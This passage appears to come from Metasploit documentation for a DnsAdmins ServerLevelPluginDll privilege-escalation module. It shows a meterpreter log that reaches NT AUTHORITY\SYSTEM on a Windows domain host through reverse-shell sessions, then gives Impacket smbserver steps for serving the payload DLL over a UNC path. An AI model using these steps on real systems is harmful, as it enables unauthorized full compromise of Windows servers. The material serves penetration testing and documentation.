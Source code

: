 ```
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session 2...
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  RAPID7\normal @ WIN-M5JU6L5RA9L        0.0.0.0:0 -> 172.17.169.123:4444 (172.17.169.123)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN-M5JU6L5RA9L  0.0.0.0:0 -> 172.17.169.123:7788 (172.17.169.123)

msf exploit(windows/local/dnsadmin_serverlevelplugindll) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : WIN-M5JU6L5RA9L
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : RAPID7
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > 
```

### Windows Server 2019 Standard x64, specifying a UNC path for ServerLevelPluginDll
The easiest way to set this up is to Impacket's `smbserver`. You can find the source code for Impacket at https://github.com/SecureAuthCorp/impacket.
Download the latest release and untar it, then `cd` into the new directory that is created. You should see a file named `setup.py`. Run the command
`sudo python3 setup.py install` and it will install Impacket for you. Once this is done, navigate to the `examples` directory and follow the following steps:

```
 ~/Desktop/impacket-0.9.21/examples  sudo python3 smbserver.py -smb2support -ip 172.17.168.195 test /home/gwillcox/.msf4/local/
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```
